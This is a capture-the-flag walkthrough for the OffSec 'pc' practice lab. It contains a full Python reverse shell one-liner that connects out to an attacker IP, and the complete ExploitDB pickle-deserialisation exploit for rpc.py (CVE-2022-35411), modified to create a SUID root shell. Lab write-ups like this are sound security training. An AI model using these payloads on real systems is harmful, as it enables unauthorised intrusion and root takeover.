

# pc

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a Remote Code Execution (RCE) vulnerability in rpc.py (CVE-2022-35411), 
an ASGI-based RPC framework, to achieve initial access. Privilege escalation is achieved by leveraging 
the RCE to set the SUID bit on /bin/bash, enabling root access. This lab highlights RPC exploitation, 
serialized payload crafting using pickle, and SUID abuse for privilege escalation.
Released: 31 Aug 2023
```

Machine link: [https://portal.offsec.com/machine/pc-52193/overview/details](https://portal.offsec.com/machine/pc-52193/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/pc]
└─$ export TARGET_IP=192.168.219.210

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/pc]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-19 14:05 +0100
Nmap scan report for 192.168.219.210
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
8000/tcp open  http    ttyd 1.7.3-a2312cb (libwebsockets 3.2.0)
|_http-server-header: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|_http-title: ttyd - Terminal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.29 seconds
```

We have two services running and available:

- OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 on port 22
- ttyd 1.7.3-a2312cb on port 8000

### Check the web site

Accessing the website on port 8000 we get some kind of console



### Get a reverse shell

First we start a netcat listener on port 443

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/pc]
└─$ nc -lvnp 443             
listening on [any] 443 ...

```

and then we start a Python reverse shell

```bash
user@pc:/home/user$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.167",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Back at the netcat listener we now have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/pc]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.219.210] 43918
user@pc:/home/user$ id
id
uid=1000(user) gid=1000(user) groups=1000(user)
user@pc:/home/user$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
user@pc:/home/user$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
user@pc:/home/user$ ^Z
zsh: suspended  nc -lvnp 443

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/pc]
└─$ stty raw -echo ; fg ; reset 
[1]  + continued  nc -lvnp 443

user@pc:/home/user$ export SHELL=/bin/bash
user@pc:/home/user$ export TERM=xterm-256color
user@pc:/home/user$ stty rows 200 columns 200
user@pc:/home/user$ ^C
user@pc:/home/user$ 
```

Now we have a proper shell that survives `Ctrl + C`!

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

The following checks yields nothing:

- `sudo -l` (no password)
- Check for SUID-binaries (`find / -type f -perm /4000 2>/dev/null`)
- Check for capabilities (`getcap -r / 2>/dev/null`)
- Check .bash_history content
- Check crontabs

Checking for scripts we find

```bash
user@pc:/home$ find / -iname *.sh -or -iname *.csh -or -iname *.zsh -or -iname *.py 2>/dev/null
/boot/grub/i386-pc/modinfo.sh
/opt/rpc.py
/usr/local/lib/python3.8/dist-packages/typing_extensions.py
/usr/local/lib/python3.8/dist-packages/rpcpy/client.py
/usr/local/lib/python3.8/dist-packages/rpcpy/exceptions.py
/usr/local/lib/python3.8/dist-packages/rpcpy/openapi.py
/usr/local/lib/python3.8/dist-packages/rpcpy/__init__.py
<---snip--->
```

The Python script `/opt/rpc.py` looks interesting

```bash
user@pc:/home$ cat /opt/rpc.py 
from typing import AsyncGenerator
from typing_extensions import TypedDict

import uvicorn
from rpcpy import RPC

app = RPC(mode="ASGI")


@app.register
async def none() -> None:
    return


@app.register
async def sayhi(name: str) -> str:
    return f"hi {name}"


@app.register
async def yield_data(max_num: int) -> AsyncGenerator[int, None]:
    for i in range(max_num):
        yield i


D = TypedDict("D", {"key": str, "other-key": str})


@app.register
async def query_dict(value: str) -> D:
    return {"key": value, "other-key": value}


if __name__ == "__main__":
    uvicorn.run(app, interface="asgi3", port=65432)
user@pc:/home$ 
```

We can also see this application listening on port 65432

```bash
user@pc:/home$ netstat -tunlp | grep 127.0.0.1
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:65432         0.0.0.0:*               LISTEN      -                   
user@pc:/home$ 
```

### Search for exploit(s)

Searching for exploits we find [this one on ExploitDB](https://www.exploit-db.com/exploits/50983)

```python
# Exploit Title: rpc.py 0.6.0 - Remote Code Execution (RCE)
# Google Dork: N/A
# Date: 2022-07-12
# Exploit Author: Elias Hohl
# Vendor Homepage: https://github.com/abersheeran
# Software Link: https://github.com/abersheeran/rpc.py
# Version: v0.4.2 - v0.6.0
# Tested on: Debian 11, Ubuntu 20.04
# CVE : CVE-2022-35411

import requests
import pickle

# Unauthenticated RCE 0-day for https://github.com/abersheeran/rpc.py

HOST = "127.0.0.1:65432"

URL = f"http://{HOST}/sayhi"

HEADERS = {
    "serializer": "pickle"
}


def generate_payload(cmd):

    class PickleRce(object):
        def __reduce__(self):
            import os
            return os.system, (cmd,)

    payload = pickle.dumps(PickleRce())

    print(payload)

    return payload


def exec_command(cmd):

    payload = generate_payload(cmd)

    requests.post(url=URL, data=payload, headers=HEADERS)


def main():
    exec_command('cp /bin/bash /home/user/rootbash; chmod +s /home/user/rootbash')

if __name__ == "__main__":
    main()

```

Note that the above exploit was updated and fixed:

- `=3D` changed to `=` in a number of places
- the `exec_command` updated to create a SUID bash binary

### Trigger the exploit

Then we trigger the exploit

```bash
user@pc:/home/user$ vi 50983.py
user@pc:/home/user$ python3 50983.py 
b'\x80\x04\x95Y\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c>cp /bin/bash /home/user/rootbash; chmod +s /home/user/rootbash\x94\x85\x94R\x94.'
user@pc:/home/user$ ls -l
total 1164
-rw-r--r-- 1 user user     686 Mar 19 14:04 50983.py
-rwsr-sr-x 1 root root 1183448 Mar 19 14:04 rootbash
drwx------ 3 user user    4096 Aug 25  2023 snap
user@pc:/home/user$ ./rootbash -p
rootbash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
rootbash-5.0# 
```

### Get the root flag

Finally we can get the root flag

```bash
rootbash-5.0# cd /root
rootbash-5.0# ls -l
total 12
-rw-r--r-- 1 root root    5 Aug 25  2023 email4.txt
-rw-r--r-- 1 root root   33 Mar 19 13:04 proof.txt
drwx------ 4 root root 4096 Aug 25  2023 snap
rootbash-5.0# cat proof.txt
a<REDACTED>2
rootbash-5.0# 
```

For additional information, please see the references below.

## References

- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [netstat - Linux manual page](https://man7.org/linux/man-pages/man8/netstat.8.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [rpc.py 0.6.0 - Remote Code Execution (RCE) - ExploitDB](https://www.exploit-db.com/exploits/50983)
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
